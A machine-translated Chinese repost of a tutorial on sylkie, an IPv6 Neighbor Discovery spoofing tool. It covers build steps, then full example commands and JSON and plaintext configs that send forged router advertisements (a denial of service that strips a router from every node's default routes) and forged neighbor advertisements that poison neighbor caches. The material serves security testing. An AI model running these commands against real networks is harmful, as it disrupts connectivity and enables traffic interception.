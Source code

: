 # syl kie–使用邻居发现协议的 IPv6 地址欺骗

> 原文：<https://kalilinuxtutorials.com/sylkie-ipv6-address-spoofing/>

Sylkie 是一个命令行设备和库，用于测试使用邻居发现协议的 IPv6 系统中的正常地址欺骗安全漏洞。这项事业仍处于早期发展阶段。万一你继续遇到任何问题，请考虑提出一个问题。它目前只是继续在 Linux 上运行。

## **建造西尔基**

获取代码并编译它！

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

**也读作[FireMaster——火狐主密码恢复工具](https://kalilinuxtutorials.com/firemaster-password-recovery-tool/)**

## **基本用法**

下面介绍 sylkie 的基本用法。运行 sylkie -h 或`sylkie <subcommand> -h`以获得更多细节，或者查看高级用法以获得更多示例。

**注意:** sylkie 使用原始套接字发送伪造的广告。因此，可执行文件必须设置 setuid 位，或者必须以 root 用户身份运行。

## **【DoS(路由器广告)**

router-advert 命令的基本用法如下所示。该命令将向给定 ip 或所有节点多播地址发送路由器广告消息，使目标节点从其默认路由列表中删除`<router-ip>/<prefix>`。

```
sylkie ra -i <interface> \
--target-mac <mac of router> \
--router-ip <ip of router> \
--prefix <router prefix> \
--timeout <time between adverts> \
--repeat <number of times to send the request>
```

#### **路由器广告示例**

```
sylkie ra -i ens3 \
--target-mac 52:54:00:e3:f4:06 \
--router-ip fe80::b95b:ee1:cafe:9720 \
--prefix 64 \
--repeat -1 \
--timeout 10
```

这将向链路本地范围所有节点地址 ff02::1 发送“伪造的”路由器广告，导致所有节点从它们的默认路由列表中删除 fe80::b95b:ee1:cafe:9720/64(链路层地址 52:54:00:e3:f4:06)。

## **【邻居广告】地址欺骗**

sylkie neighbor advert 命令的基本用法如下所示。该命令将向给定的 ip 发送伪造的邻居通告消息。

```
sylkie na -i <interface> \
--dst-mac <dest hw addr> \
--src-ip <source ip> \
--dst-ip <dest ip address> \
--target-ip <target ip address> \
--target-mac <target mac address> \
--timeout <time betweeen adverts> \
--repeat <number of times to send the request>
```

#### **邻居广告示例**

```
sylkie na -i ens3 \
--dst-mac 52:54:00:e3:f4:06 \
--src-ip fe80::61ad:fda3:3032:f6f4 \
--dst-ip fe80::b95b:ee1:cafe:9720 \
--target-ip fe80::61ad:fda3:3032:f6f4 \
--target-mac 52:54:00:c2:a7:7c \
--repeat -1 \
--timeout 3
```

这将向 dst-IP(fe80::b95b:ee1:cafe:9720)发送一个“伪造的”邻居公告消息，导致 target-IP(fe80::61ad:FD a3:3032:f6f 4)的邻居缓存中的硬件地址更新为 target-mac (52:54:00:c2:a7:7c)。

### **JSON**

子命令(router-advert，neighbor-advert)是一个关键字，其值是一个对象数组，关键字和值是相应的选项和值。要运行该命令，请将 json 文件的路径作为参数传递给-j 选项。

#### **例子**

要从 json 运行上面提供的 router-advert 示例，首先创建一个包含以下内容的文件。

```
{
    "router-advert": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

**创建文件后，开始发送包含以下内容的广告。**

```
sylkie -j /path/to/json
```

### **明文**

该文件的每一行都必须与您通过命令行提供的内容完全一致，不包括 sylkie 命令。

#### **例子**

要从 json 运行上面提供的 neighbor-advert 示例，首先创建一个包含以下内容的文件。

```
na -i ens3 --dst-mac 52:54:00:e3:f4:06 --src-ip fe80::61ad:fda3:3032:f6f4 --dst-ip fe80::b95b:ee1:cafe:9720 --target-ip fe80::61ad:fda3:3032:f6f4 --target-mac 52:54:00:c2:a7:7c --repeat -1 --timeout 3
```

**创建文件后，使用**开始发送广告

```
sylkie -x /path/to/file
```

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/dlrobertson/sylkie)